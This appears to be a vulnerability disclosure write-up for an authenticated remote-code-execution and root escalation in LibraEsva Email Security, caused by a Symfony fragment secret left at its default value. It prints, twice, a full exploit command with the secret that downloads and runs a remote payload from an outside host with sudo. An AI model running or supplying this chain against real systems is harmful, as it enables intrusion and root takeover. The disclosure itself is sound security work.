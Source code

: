 ```yaml
---
title: LibraEsva's Email Security Authenticated root shell
excert: An underling bug in Symfony brings to an RCE in famous email security manager
tags:
 - CVE
 - LibraEsva
 - RCE
 - Shellcode
 - Web
 - Walkthrough
category:
 - research
toc: true
classes: single
---
```


> Under construction
{: .prompt-warning}

> TL;DR: Based upon Symfony framework, LibraESVA exposed the [FragmentListener][1] class with well-know secret, leading to an authenticated RCE and subsequent privileges escalation to root.
{: .prompt-info}

Let's dive in:

## LibraEsva

The company LibraESVA proposes different solution for managing email ecosystem. From Email Security program to Load Balancer solution.
Basically those products are suite for managing emails, ranging from user management to built-in security features like antivirus scan and phishing prevention mechanism.

## Symfony RCE

Thanks to the [excellent work by Ambionic Security][2] on the Symfony Framework, it was possible to focus my research on the __FragmentListener__ class.
Quoting from their blog,  
```
Essentially, when someone issues a request to /_fragment, this listener sets request attributes from given GET parameters. Since this allows to run arbitrary PHP code (more on this later), the request has to be signed using a HMAC value. This HMAC's secret cryptographic key is stored under a Symfony configuration value named secret.
```

Obviously we need to find this __secret__. Luckily this was a trivial task, as the Symphony's well documented docs gives instruction where to find this value.
The __secret__ is located within the __/xxx/yyy/zzz.conf__ file, unchanged from the default value.

## RCE

Using the previous mentioned technique, it was possible to remotely execute command on the machine. This was achieved using the [Ambionic's Symfony Exploit][3] found on their GitHub page.
Building the command as following:
```
./secret_fragment_exploit.py https://192.168.11.120/_fragment -i "https://192.168.11.120/_fragment" -s '36b1f1aadcc7602eeedcd83cc7d5510e9b2a9bd5' -m 1 -f shell_exec -p cmd:"cd /tmp/; wget -qO upgradescript --no-check-certificate https://192.168.11.124:8443/QE4aPZwlxtk; chmod 777 upgradescript; sudo ./upgradescript disown
``` 

## Privilage Escalation

Located in ```/tmp``` there is a SUID script file which is either writable and executable. 
The __/tmp/upgradescript__ 

The complete command to trigger the chain is:
```
./secret_fragment_exploit.py https://192.168.11.120/_fragment -i "https://192.168.11.120/_fragment" -s '36b1f1aadcc7602eeedcd83cc7d5510e9b2a9bd5' -m 1 -f shell_exec -p cmd:"cd /tmp/; wget -qO upgradescript --no-check-certificate https://192.168.11.124:8443/QE4aPZwlxtk; chmod 777 upgradescript; sudo ./upgradescript disown
```

## Final thoughts 

It is very important to run periodic vulnerability assessment and complete penetration testing on you own products, which seems that LibraEsva haven't done. When developing a product based upon a framework, it is important to keep in mind that the framework itself could not be secure, that could lower the security of the overall project.
Nonetheless, LibraEsva were very quick in triaging and fixing the bug.

## Disclosure Timeline
18-03-2021 LibraEsva's developers team informed about the vuln
07-04-2021 Fix released with product version 4.9.5
27-07-2021 Public release

---
[1]: https://github.com/symfony/symfony/blob/5.1/src/Symfony/Component/HttpKernel/EventListener/FragmentListener.php
[2]: https://www.ambionics.io/blog/symfony-secret-fragment
[3]: https://github.com/ambionics/symfony-exploits



